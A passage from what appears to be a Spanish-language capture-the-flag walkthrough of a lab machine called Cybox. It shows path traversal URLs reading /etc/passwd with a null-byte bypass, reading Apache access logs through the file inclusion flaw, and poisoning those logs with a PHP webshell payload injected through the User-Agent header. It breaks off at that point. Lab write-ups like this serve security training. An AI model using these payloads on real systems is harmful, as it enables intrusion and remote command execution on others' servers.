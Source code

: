 ![17](/assets/img/sample/cybox/17.png)

Podemos inferir que esto es una vulnerabilidad LFI, ya que la página carga archivos del sitio

## LFI a RCE

Ya sabemos que puede ser una vulnerabilidad LFI, lo comprobamos añadiendo "../" a la URL y al final un directorio del sistema Linux en este caso "/etc/passwd", entonces la URL quedaría así:

```view-source:http://monitor.cybox.company/admin/styles.php?style=../../../../../../../../etc/paswd```

Si no nos muestra nada, es por que la extensión del archivo es .css, para poder bypassear esto, podemos usar un nullbyte "%00"

```view-source:http://monitor.cybox.company/admin/styles.php?style=../../../../../../../../etc/paswd%00```

Y si todo sale bien, se debería ver así: 

![18](/assets/img/sample/cybox/18.png)

Ahora confirmamos que es un LFI, tenemos que plantar una shell en el sitio, para ello revisamos información en el subdominio "dev.cybox.company" y vemos la info del apache, si nos fijamos bien, en "extension_dir" sale una ruta que utiliza Bitnami, si buscamos en google la [Documentación](https://docs.bitnami.com/aws/apps/elk/troubleshooting/debug-errors-apache/) nos sale donde se almacenan los logs de apache, en este caso se almacenan en "opt/bitnami/apache2/logs/access_log".

IMPORTANTE: para poder ingresar a los logs, debemos primero ingresar a la página donde se aloja el ftp, en este caso sería "ftp.cybox.company"

Ahora ingresamos a los logs, con la URL ```view-source:http://monitor.cybox.company/admin/styles.php?style=../../../../../../../opt/bitnami/apache2/logs/access_log%00```

![19](/assets/img/sample/cybox/19.png)

## Webshell

Una Webshell nos permite ejecutar comandos a nivel sistema ;)

Ahora tenemos que inyectar código php en los logs que se almacenan en el ftp, para ello abrimos Burpsuite y editamos el user-agent en la página del ftp

![20](/assets/img/sample/cybox/20.png)

Código a inyectar: <?php system($_GET['c']); ?>

```